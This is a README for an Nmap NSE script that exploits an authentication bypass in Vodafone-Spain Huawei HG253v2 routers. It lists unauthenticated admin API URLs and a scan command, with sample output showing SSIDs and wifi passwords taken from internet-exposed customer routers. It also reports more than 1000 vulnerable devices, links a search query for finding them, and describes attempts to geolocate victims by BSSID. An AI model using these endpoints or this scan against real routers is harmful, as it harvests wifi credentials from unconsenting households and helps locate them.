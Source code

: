 # http-enum-vodafone-hua253s.nse

### Introduction

Vodafone-Spain is starting to rent a new Huawei HG253v2 router to the spanish costumers. This new router is coming with a new firmware version.

### The pre-scholar bug

![Logo](img/prescholar.gif)

I found a new simple security bug in that new firmware version. It is so easy to see it that I named it "the Pre-scholar bug". Basically, it is not validating the session cookie in some administration webpages:

 - http://\<IP\>/html_253s/api/ntwk/WlanBasic
 - http://\<IP\>/html_253s/api/system/diagnose_internet
 - http://\<IP\>/html_253s/api/system/hostinfo?type=ethhost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=guesthost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=homehost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=wifihost
 - http://\<IP\>/html_253s/api/system/wizardcfg

So, It is possible to get direct information from those urls in any router open to internet.

### About the NSE script

This is a Nmap NSE script to search Vodafone-Spain Huawei 253s_v2 router with the port 80/tcp and/or 443/tcp open to Internet (via this new bug).

The script will try to get the SSID, BSSID, key-type and Password of the wifi network interface.

It was tested with:

  - HW: AV1HG253SBZDM
  - Firmware: V100R001C205B038SP0x (being x a number)

Command line and result:

```
nmap -sS -p80,443 -script http-enum-vodafone-hua253s.nse x.x.x.*

Nmap scan report for xxxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.089s latency).
PORT    STATE    SERVICE
80/tcp  filtered http
443/tcp filtered https

Nmap scan report for xxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.091s latency).
PORT    STATE SERVICE
80/tcp  open  http
|_http-enum-vodafone-hua253s:   SSID: vodafone851X (c4:07:2f:89:xx:xx)   Pass(AES): FSLJLMZFC3W9XX
443/tcp open  https
|_http-enum-vodafone-hua253s:   SSID: vodafone851X (c4:07:2f:89:xx:xx)   Pass(AES): FSLJLMZFC3W9XX

Nmap scan report for xxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.089s latency).
PORT    STATE    SERVICE
80/tcp  filtered http
443/tcp filtered https

```

### Scope

I have checked the Spanish Vodafone network trying to guess what the real scope is and I found >1000 routers with the "correct" brand, open port to internet and the bug working.

https://www.censys.io/ipv4?q=html_253s

### Experiments

After speaking to a friend of mine, I was trying to geolocate this routers using Google geolocate API and the found BSSID. But it was not possible. The spanish BSSID (MAC address) database by google seems very poor. All my tries got a "Not found" answer :,(

Using other IP location services was worse. They are completely inaccurate.

I tried it with https://wigle.net/ and it is working but its API is very limited. I wrote to the wigle's owner but he wanted bread... so, you only can shoot to five or six bssid per day in that webpage :(

### Notes

 - Sorry for my ugly English.
 - Oldschool is alive.
